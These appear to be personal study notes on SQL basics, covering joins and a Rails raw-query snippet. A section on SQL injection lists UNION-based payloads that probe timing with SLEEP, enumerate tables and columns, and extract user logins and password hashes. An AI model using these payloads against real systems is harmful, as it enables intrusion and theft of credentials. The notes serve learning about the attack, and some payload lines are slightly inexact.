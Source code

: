 # SQL

* Designed to work with *Relational Databases*
* A query result is best described as a *record* (i.e., not a row as query results may be columns as well)

## Language

* Relational Database: a data store that is capable of representing relationships between different data sets.
  - displayed in rows and columns
* DML: add, query, manipulate, delete data from tables and datasets.
* DDL: defines tables, indexes, and relationships.
* DMS - Database Management System: Oracle, PostgreSQL, SQLite, MySQL

## LeftOuterJoin

Keeps all the records on the left after the join occurs - otherwise, it would just join with the right table and return only those results that can be joined

To practice writing in rails:

```SQL
ActiveRecord::Base
  .connection
  .execute(
    "SELECT \"events\".*
    FROM \"events\"
    ORDER BY \"events\".updated_at DESC"
  )
  .to_a.first
```

## SQL Injection

[Running an SQL Injection Attack - Computerphile](https://youtu.be/ciNHn38EyRc)

```SQL
-- SLEEP is an SQL command
SELECT ? FROM ? WHERE ? LIKE %hammer% AND 0 = SLEEP(2);

-- UNION Appends - makes sure column count matches

-- Get the table names of all the tables
-- we are selecting 3 columns b/c it must match the original SELECT call
SELECT ?,?,? FROM ? WHERE ? LIKE %hammer% UNION (SELECT TABLE_NAME, TABLE_SCHEMA, 3 FROM information_schema.table); --%';

-- Get the column names of the users table
SELECT ?,?,? FROM ? WHERE ? LIKE %hammer% UNION (SELECT COLUMN_NAME, 2, 3 FROM information_schema.columns WHERE TABLE_NAME = 'users'); --%';

-- GEt the particular data for each user
SELECT ?,?,? FROM ? WHERE ? LIKE %hammer% UNION (SELECT uLogin, uHash, uType FROM users); --%''
```

![SQL_Injected_Products_Table](/assets/sql_injected_products_table.png)

## HTTP vs TCP vs UDP
